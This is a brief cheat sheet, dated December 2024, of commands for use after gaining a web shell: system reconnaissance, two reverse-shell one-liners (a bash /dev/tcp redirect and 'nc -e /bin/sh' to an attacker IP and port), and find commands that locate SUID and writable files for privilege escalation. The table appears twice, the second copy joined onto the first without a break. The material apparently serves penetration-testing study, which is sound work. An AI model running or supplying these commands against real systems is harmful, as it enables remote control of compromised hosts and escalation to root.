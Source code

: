 # December 3, 2024

The following table provides useful command for making the most of a web shell.
Command 	Use
ls 	Will give you an idea of what files/directories surround you
cat	A command used to output the contents of documents such as text files
pwd 	Will give you an idea of where in the system you are
whoami 	Will let you know who you are in the system
hostname 	The system name and potentially its role in the network
uname -a 	Will give you some system information like the OS, kernel version, and more
id 	If the current user is assigned to any groups
ifconfig 	Allows you to understand the system's network setup
bash -i >& /dev/tcp/<your-ip>/<port> 0>&1 	A command used to begin a reverse shell via bash
nc -e /bin/sh <your-ip> <port> 	A command used to begin a reverse shell via Netcat
find / -perm -4000 -type f 2>/dev/null 	Finds SUID (Set User ID) files, useful in privilege escalation attempts as it can sometimes be leveraged to execute binary with privileges of its owner (which is often root)
find / -writable -type  f 2>/dev/null | grep -v "/proc/" 	Also helpful in privilege escalation attempts used to find files with writable permissionsCommand 	Use
ls 	Will give you an idea of what files/directories surround you
cat	A command used to output the contents of documents such as text files
pwd 	Will give you an idea of where in the system you are
whoami 	Will let you know who you are in the system
hostname 	The system name and potentially its role in the network
uname -a 	Will give you some system information like the OS, kernel version, and more
id 	If the current user is assigned to any groups
ifconfig 	Allows you to understand the system's network setup
bash -i >& /dev/tcp/<your-ip>/<port> 0>&1 	A command used to begin a reverse shell via bash
nc -e /bin/sh <your-ip> <port> 	A command used to begin a reverse shell via Netcat
find / -perm -4000 -type f 2>/dev/null 	Finds SUID (Set User ID) files, useful in privilege escalation attempts as it can sometimes be leveraged to execute binary with privileges of its owner (which is often root)
find / -writable -type  f 2>/dev/null | grep -v "/proc/" 	Also helpful in privilege escalation attempts used to find files with writable permissions
